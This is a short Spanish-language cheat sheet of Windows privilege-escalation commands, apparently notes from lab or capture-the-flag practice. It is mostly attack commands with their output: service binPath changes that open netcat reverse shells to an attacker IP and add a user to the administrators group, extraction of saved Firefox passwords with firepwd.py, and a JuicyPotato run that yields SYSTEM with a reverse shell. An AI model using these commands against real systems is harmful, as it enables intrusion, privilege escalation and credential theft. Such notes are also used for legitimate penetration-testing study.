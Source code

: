 ### Modificación del BinPath de un servicio

```
*Evil-WinRM* PS C:\Privesc> sc.exe config VMTools binPath="C:\Privesc\nc.exe -e cmd.exe 10.10.16.6 443"
[SC] ChangeServiceConfig SUCCESS
```

### Reinicio del proceso

```
*Evil-WinRM* PS C:\Privesc> sc.exe config browser binPath="C:\Windows\System32\cmd.exe /c net localgroup administrators jorden /add"
[SC] ChangeServiceConfig SUCCESS

*Evil-WinRM* PS C:\Privesc> sc.exe start browser
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

## Credenciales cacheadas

### Firefox

```
*Evil-WinRM* PS C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release> dir -Force

    Directory: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release
[...snip...]
```

### Uso de firepwd.py

Primero copiar al directorio actual de trabajo el `key4.db` y el `login.json`

```
python3 firepwd.py
```

## Listar reglas de Firewall

```
netsh advfirewall show currentprofile
```

## Abuso del privilegio SeImpersonatePrivileage

## Uso de JuicyPotato

```
PS C:\Temp> .\JuicyPotato.exe -t * -p C:\Windows\system32\cmd.exe -l 1337 -a "/c C:\Temp\nc.exe -e cmd 10.10.16.2 443"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
